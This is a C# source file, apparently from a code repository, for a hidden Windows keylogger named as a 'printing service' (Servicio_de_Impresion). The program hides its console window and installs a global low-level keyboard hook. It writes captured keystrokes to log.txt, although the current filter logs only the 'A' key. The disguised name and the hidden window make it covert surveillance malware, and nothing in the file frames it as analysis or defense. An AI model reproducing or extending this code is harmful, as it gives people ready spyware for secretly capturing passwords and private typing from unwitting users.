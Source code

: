using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Forms;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;



namespace Servicio_de_Impresion
{
    class Program
    {
       //Variable de clase//
        private const int WH_KEYBOARD_LL = 13;
        private const int WM_KEYDOWN = 0x0100;
        private static LowLevelKeyboardProc _proc = HookCallback;
        private static IntPtr _hookID = IntPtr.Zero;

        static void Main(string[] args)
        {
            var handle = GetConsoleWindow();

            // Hide
            ShowWindow(handle, SW_HIDE);

            _hookID = SetHook(_proc);
            Application.Run();
            UnhookWindowsHookEx(_hookID);

        }

        private static IntPtr SetHook(LowLevelKeyboardProc proc)
        {
            using (Process curProcess = Process.GetCurrentProcess())
            using (ProcessModule curModule = curProcess.MainModule)
            {
                return SetWindowsHookEx(WH_KEYBOARD_LL, proc,
                    GetModuleHandle(curModule.ModuleName), 0);
            }
        }

        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);

        private static IntPtr HookCallback(
       int nCode, IntPtr wParam, IntPtr lParam)
        
        {
            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN)
            {
                int vkCode = Marshal.ReadInt32(lParam);
               
                // Console.WriteLine((Keys)vkCode);
                StreamWriter sw = new StreamWriter("log.txt", true);
                if (((char)vkCode=='A'))
                {
                    sw.Write((Keys)vkCode);
                }
              
                sw.Close();
            }
            return CallNextHookEx(_hookID, nCode, wParam, lParam);
        }




        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr SetWindowsHookEx(int idHook,
       LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        private static extern bool UnhookWindowsHookEx(IntPtr hhk);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr CallNextHookEx(IntPtr hhk, int nCode,
            IntPtr wParam, IntPtr lParam);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr GetModuleHandle(string lpModuleName);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetConsoleWindow();

        [DllImport("user32.dll")]
        static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

        const int SW_HIDE = 0;



    }


}
